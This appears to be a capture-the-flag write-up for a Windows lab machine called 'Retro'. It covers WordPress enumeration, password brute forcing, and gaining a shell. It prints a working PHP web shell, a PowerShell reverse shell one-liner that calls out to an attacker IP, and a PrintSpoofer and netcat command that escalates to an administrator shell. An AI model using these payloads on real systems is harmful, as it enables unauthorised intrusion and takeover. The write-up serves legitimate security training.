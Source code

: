 # **Retro || Hard**

***

![image](https://github.com/sec-fortress/sec-fortress.github.io/assets/132317714/3c846113-3edb-480a-a52c-06b6d171cfc6)

***

Running our nmap scan we have 2 open ports


```bash
# Nmap 7.94SVN scan initiated Mon Mar 11 06:41:24 2024 as: nmap -p- -T4 -v --min-rate=1000 -sCV -oN nmap.txt 10.10.97.2
Nmap scan report for 10.10.97.2
Host is up (0.15s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: RETROWEB
|   NetBIOS_Domain_Name: RETROWEB
|   NetBIOS_Computer_Name: RETROWEB
|   DNS_Domain_Name: RetroWeb
|   DNS_Computer_Name: RetroWeb
|   Product_Version: 10.0.14393
|_  System_Time: 2024-03-11T05:43:47+00:00
|_ssl-date: 2024-03-11T05:43:51+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=RetroWeb
| Issuer: commonName=RetroWeb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-03-10T05:18:49
| Not valid after:  2024-09-09T05:18:49
| MD5:   8d7a:1577:c616:ae1a:6364:e666:f0ba:53d0
|_SHA-1: d697:44ba:89ed:4056:f469:9352:05df:7214:d874:ea37
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Mar 11 06:43:52 2024 -- 1 IP address (1 host up) scanned in 147.74 seconds
```



Navigating to port 80 we have a default windows IIS page 


![](https://i.imgur.com/ZrcU03H.png)


Since we don't have much to enumerate rather than port 80/HTTP, i decided to fuzz for directories and found `/retro`

![](https://i.imgur.com/qZBHJMR.png)



Navigating to `/retro` we found a wordpress website


![](https://i.imgur.com/kLcNXUl.png)

Enumerating this site using `wpscan` there was nothing more interesting than finding a username called **wade**

```bash
❯ wpscan --url http://10.10.97.2/retro/ -e u
```

![](https://i.imgur.com/DLJ3qAN.png)


Since we have a username let bruteforce the login page, we first need to use the `cewl` tool to generate a password wordlist from the site it self so we can use it against the username we got

```bash
❯ cewl -m 5 http://10.10.97.2/retro/ > pass.txt
```

![](https://i.imgur.com/rcu97nj.png)


Then we can bruteforce, as shown below we found a valid credentials for the user `wade`


```bash
❯ wpscan --url http://10.10.97.2/retro/ -U wade -P ./pass.txt --password-attack wp-login
```



![](https://i.imgur.com/WLBIFjJ.png)


```
wade:parzival
```


We can then login via wordpress with the username and password we have gotten

![](https://i.imgur.com/aShbHqz.png)


Now to get a **reverse shell**, navigate to **Plugins --> Plugins Editor**



![](https://i.imgur.com/FOI3vVu.png)

Then overwrite the `absolute-relative-urls.php` file and paste in your own PHP reverse shell as this is the file that will be called when we want to get the reverse shell, then scroll down and click on **Update** to complete this step


![](https://i.imgur.com/EFxEgsc.png)



Now go ahead and start up your listener and navigate to . This should trigger your reverse shell, Note that as shown below i used `rlwrap` for automatic windows shell stabilization


![](https://i.imgur.com/PzgjvSn.png)
![](https://i.imgur.com/XQrqnX6.png)



However as seen above, looks like our shell is been terminated, well this is probably cos' we are using a PHP cmd for the windows host which isn't that stable, we can therefore upload a webshell and use powershell to get a reverse shell, save the below code in the `.php` plugin and navigate to the website again


```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```


However i noticed that the plugin changes, so make sure to confirm the URL path also :P

![](https://i.imgur.com/PWLyX12.png)


Then get a reverse shell using the following powershell command, make sure to change the IP and port to yours irrespectively

```powershell
powershell -nop -W hidden -noni -ep bypass -c "$TCPClient = New-Object Net.Sockets.TCPClient('10.11.69.221', 4444);$NetworkStream = $TCPClient.GetStream();$StreamWriter = New-Object IO.StreamWriter($NetworkStream);function WriteToStream ($String) {[byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0};$StreamWriter.Write($String + 'SHELL> ');$StreamWriter.Flush()}WriteToStream '';while(($BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {$Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1);$Output = try {Invoke-Expression $Command 2>&1 | Out-String} catch {$_ | Out-String}WriteToStream ($Output)}$StreamWriter.Close()"
```


![](https://i.imgur.com/Du9Rrds.png)


Running `whoami /priv` we can see we have the **SeImpersonatePrivilege** enabled, this role determines which programs are allowed to impersonate a user or other specified account and perform actions on behalf of the user. we can go ahead and use this privilege to get a shell as administrator

![](https://i.imgur.com/ih3wy3s.png)


Transfer [nc64.exe](https://github.com/sec-fortress/Exploits/blob/main/nc64.exe) and [PrintSpoofer32.exe](https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer32.exe) to target machine and run the below command also make sure to start your listener before doing this


```bash
# start listener
sudo nc -lvnp 443

# start exploit
.\PrintSpoofer32.exe -c "c:\windows\temp\nc64.exe 10.11.69.221 443 -e cmd"
```



![](https://i.imgur.com/A24bHmY.png)



GG 😄

